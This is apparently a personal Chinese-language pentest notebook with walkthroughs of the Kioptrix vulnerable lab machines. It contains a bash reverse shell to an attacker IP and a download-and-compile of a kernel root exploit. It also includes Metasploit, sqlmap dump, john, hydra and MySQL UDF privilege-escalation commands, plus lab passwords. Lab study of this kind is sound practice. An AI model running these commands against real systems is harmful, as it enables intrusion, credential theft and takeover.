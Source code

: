 ```yaml
---
date: 2022-08-01-星期一 14:13:24
update: 
tags: [time/year2022,time/month08]
id: 20220801141324
---
```


# easy
## kioptrix2
### 主机发现
arp-scan -l
### 端口扫描
nmap -p- -A 
Nikto 扫描以识别有关在端口 80 上运行的 Web 服务器的基本信息。
### 漏洞发现
#### sql注入
#### 命令执行
发现有命令执行
#### 反弹shell
| bash -i >& /dev/tcp/192.168.101.42(攻击机)/1234 0>&1
#### 连接shell
nc -nvlp 1234
### 提权
 lsb_release -a 查看发行版本版本信息

searchsploits  centos 4.5
searchsploits - m  9542.c
#### python开启http
python -m http.server
靶机下载exp
wget 192.168.101.42:8000/9542.c
根据提示 编译exp gcc -o 0x82-CVE-2009-2698 9542.c && ./0x82-CVE-2009-2698
id 获得root




## kioptrix3
主机发现端口扫描目录扫描后续靶机简单赘述
22
80
### 漏洞发现/利用
发现cms有漏洞
use exploit/multi/http/lcms_php_exec
set payload generic/shell_reverse_tcp
set 
python -c 'import pty;pty.spawn("/bin/bash")'  获取完全交互式 shell
find . -name "*config.php"
登录phpmyadmin
获取
账号和密码
哈希破解
hashid 哈希值
echo -n | wc -c 多少位
cat user:password(hash)
john --wordlist=/usr/share/wordlists/rockyou.txt --format=RAW-MD5
加强shell

ssh loneferret@192.168.101.48
starwars 
### 权限提升

sudo-l
export TERM=xterm
修改 /etc/sudoers文件
、

## kioptrix3
22
80
139

nmap -sC –script=smb-enum-users 192.168.36.134 //smb枚举
smbclient -L //爆破登录

### 漏洞发现nikto -host
#### sql注入.

burp抓包保存请求 sql..txt
sqlmap -r sql.txt  --batch --level 3 --current-user
sqlmap -r sql.txt  --batch --level 3 --current-dbs
sqlmap -r sql.txt --batch --dbs  --level 3 
sqlmap -r sql.txt  --batch --level 3 -D members --tables
sqlmap -r sql.txt  --batch --level 3 -D members -T members --columns 
sqlmap -r sql.txt  --batch --level 3 -D members -T members -C 'username,password' --dump
#### ssh尝试登录
ssh john@
MyNameIsJohn
 加强shell
echo os.system(‘/bin/bash’)
#### 提权
查看root运行的服务
ps -ef | grep root |
ps -ef | grep root | grep mysql
发现mysql为root运行的
 /var/www 目录的配置文件
mysql udf提权

ls -la /usr/lib/lib_mysqludf_sys.so
mysql -h localhost -u root -p
SELECT * FROM mysql.func；
select sys_exec('usermod -a -G admin john');
# 
![](Pasted%20image%2020220802160750.png)

smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t 192.168.223.133

hydra -l user -P /usr/share/wordlists/rockyou.txt -t 4 ssh://192.168.223.133